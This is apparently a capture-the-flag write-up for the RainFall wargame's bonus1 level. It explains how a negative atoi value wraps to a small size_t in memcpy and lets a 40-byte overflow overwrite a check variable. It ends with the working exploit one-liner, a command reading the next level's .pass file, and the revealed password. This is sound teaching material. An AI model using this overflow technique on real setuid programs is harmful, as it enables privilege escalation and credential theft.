 
# Preparations

Entering bonus1 home directory we see a bonus1 binary with sticky bit in access rights.
By objdumping the binary we see a main function:

	bonus1@RainFall:~$ objdump -D -M intel-mnemonic bonus1 > /tmp/dump_bon1

Why do we do objdump first? Maybe in this exercise a function exists but is not used so we need to see all the functions.

# Exploitation

There is a variable `numb` that takes a value after `atoi` of argument sent to the binary. And if this value equals address 0x574f4c46(\x46\x4c\x4f\x57 in little-endian), we get the terminal under `bonus2` user. `Atoi` can give back a negative value if there is minus before the numeric value in the string. We have a term that `numb` should be less than 9 so we give a negative number that in `memcpy` become `size_t` and `INT_MIN(-2147483648) == 0u`. So `INT_MIN` plus 11 (-2147483637) will be 11u. Finally we give -2147483637, 40 bytes of rubbish for alignment and address \x46\x4c\x4f\x57 that we need.

# Result

    ./bonus1 -2147483637 $(python -c 'print "a"*40 + "\x46\x4c\x4f\x57"')
    cat /home/user/bonus2/.pass
    579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245